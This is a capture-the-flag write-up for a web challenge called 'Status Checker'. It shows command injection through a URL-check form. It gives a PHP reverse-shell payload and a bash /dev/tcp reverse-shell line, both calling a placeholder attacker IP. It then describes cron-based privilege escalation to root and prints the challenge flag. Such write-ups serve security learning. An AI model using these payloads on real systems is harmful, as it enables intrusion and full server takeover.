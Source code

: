 We are given a site where we can check the status of websites.

Entering a valid URL such as ``https://google.com`` will return us the HTTP status code as seen in the following screenshot.

![wimg-1](https://github.com/lenebread/GiTxHextech-Challenge-Repo/blob/2172799693442df396d9857becae25e70e1ca596/challenges/web/Status%20Checker/images/wimg-1.png)

Entering a semi-colon (;) will break the command. We can try to use the payload ``; whoami``  and we are returned ``www-data`` as our user as seen in the following screenshot.

![wimg-2](https://github.com/lenebread/GiTxHextech-Challenge-Repo/blob/a0a1f11bace0c0ed057208ff3d3ce65661dfe2af/challenges/web/Status%20Checker/images/wimg-2.png)

We can attempt to spawn a reverse shell by first having netcat listen on our desired port. In this example, the port will be 45101 and the netcat command will be ``nc -nlvp 45101`` as seen in the following screenshot.

![wimg-3](https://github.com/lenebread/GiTxHextech-Challenge-Repo/blob/a0a1f11bace0c0ed057208ff3d3ce65661dfe2af/challenges/web/Status%20Checker/images/wimg-3.png)

Once its listening on the port, we can use the following payload to spawn the reverse shell. Replace "YOUR-IP-HERE" with your IP address.

```
; php -r '$sock=fsockopen("YOUR-IP-ADDRESS",45101);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Input the above payload into the input box as seen in the following screenshot.

![wimg-4](https://github.com/lenebread/GiTxHextech-Challenge-Repo/blob/a0a1f11bace0c0ed057208ff3d3ce65661dfe2af/challenges/web/Status%20Checker/images/wimg-4.png)

Click on the "Check HTTP Status" and observe that the website has hung. Return to the netcat session and observe that we have gotten a shell as seen in the following screenshot.

![wimg-5](https://github.com/lenebread/GiTxHextech-Challenge-Repo/blob/a0a1f11bace0c0ed057208ff3d3ce65661dfe2af/challenges/web/Status%20Checker/images/wimg-5.png)

We can spawn an interactive shell using the command ``script -qc /bin/bash /dev/null``. Once done, we can explore the system. Navigating to the ``/var/www/`` directory and we can see 2 files.

The files are:
- backup.sh - Owned by the root user.
- my-script.sh - Owned by the www-data user.

![wimg-6](https://github.com/lenebread/GiTxHextech-Challenge-Repo/blob/a0a1f11bace0c0ed057208ff3d3ce65661dfe2af/challenges/web/Status%20Checker/images/wimg-6.png)

We can see that the ``backup.sh`` file runs the ``my-script.sh`` file as sudo, effectively running as the root user.

Using the command ``cat /etc/crontab``, we can see that there is a cronjob that runs the ``backup.sh`` file every minute. We can abuse this by changing the contents of the ``my-script.sh`` file.

As we own the ``my-script.sh`` file, we can modify it to spawn a reverse shell using the following commands:

```
echo '#/bin/bash' > my-script.sh
echo 'bash -i >& /dev/tcp/YOUR-IP-HERE/PORT-HERE 0>&1' >> my-script.sh
```

Replace ``YOUR-IP-HERE`` with your IP address and ``PORT-HERE`` with your desired port number. Once done, start another netcat listener on the port that was chosen in the above command. In this example, it will be 45102 as seen in the following screenshot.

![wimg-7](https://github.com/lenebread/GiTxHextech-Challenge-Repo/blob/a0a1f11bace0c0ed057208ff3d3ce65661dfe2af/challenges/web/Status%20Checker/images/wimg-7.png)

Once done, wait for the cronjob to run the script. This should take a minute or two. 

Once the script is ran and we are able to get a reverse shell as the root user, we can use the command ``script -qc /bin/bash /dev/null`` again to spawn an interactive shell as seen in the following screenshot.

![wimg-8]()

We can obtain the flag in the root directory. The flag is ``HEX{N3tw0rK_ErR_500_W1kS2kKiL}``

![wimg-9]()

